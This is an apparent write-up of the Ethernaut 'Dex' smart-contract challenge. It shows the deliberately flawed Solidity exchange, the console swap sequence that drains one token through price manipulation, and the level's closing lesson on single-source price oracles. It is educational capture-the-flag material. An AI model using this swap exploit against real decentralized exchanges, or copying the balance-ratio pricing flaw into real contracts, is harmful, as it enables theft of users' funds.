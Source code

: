
<img src="https://ethernaut.openzeppelin.com/imgs/BigLevel22.svg">


# Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import 'openzeppelin-contracts-08/access/Ownable.sol';

contract Dex is Ownable {
  address public token1;
  address public token2;
  constructor() {}

  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }
  
  function addLiquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }
  
  function swap(address from, address to, uint amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  }

  function getSwapPrice(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableToken(token1).approve(msg.sender, spender, amount);
    SwappableToken(token2).approve(msg.sender, spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableToken is ERC20 {
  address private _dex;
  constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply) ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
  }

  function approve(address owner, address spender, uint256 amount) public {
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
}
```

Challemge's message:

> The goal of this level is for you to hack the basic DEX contract below and steal the funds by price manipulation. You will start with 10 tokens of token1 and 10 of token2. The DEX contract starts with 100 of each token. You will be successful in this level if you manage to drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.

# Subverting


```js
var token1 = await contract.token1()
```

```js
var token2 = await contract.token2()
```

```js
await contract.balanceOf(token1,player)
i {negative: 0, words: Array(2), length: 1, red: null}
length
: 
1
negative
: 
0
red
: 
null
words
: 
(2) [10, empty]
[[Prototype]]
: 
Object
```

```js
await contract.balanceOf(token2,player)
i {negative: 0, words: Array(2), length: 1, red: null}
length
: 
1
negative
: 
0
red
: 
null
words
: 
(2) [10, empty]
[[Prototype]]
: 
Object
```

```js
await contract.swap(token1, token2, 10)
await contract.swap(token2, token1, 20)
await contract.swap(token1, token2, 24)
await contract.swap(token2, token1, 30)
await contract.swap(token1, token2, 41)
await contract.swap(token2, token1, 45)
```

```js
await contract.balanceOf(token1, instance).then(v => v.toString())

'0'
```

Ethernaut's message:

> The integer math portion aside, getting prices or any sort of data from any single source is a massive attack vector in smart contracts. You can clearly see from this example, that someone with a lot of capital could manipulate the price in one fell swoop, and cause any applications relying on it to use the the wrong price.
The exchange itself is decentralized, but the price of the asset is centralized, since it comes from 1 dex. However, if we were to consider tokens that represent actual assets rather than fictitious ones, most of them would have exchange pairs in several dexes and networks. This would decrease the effect on the asset's price in case a specific dex is targeted by an attack like this.
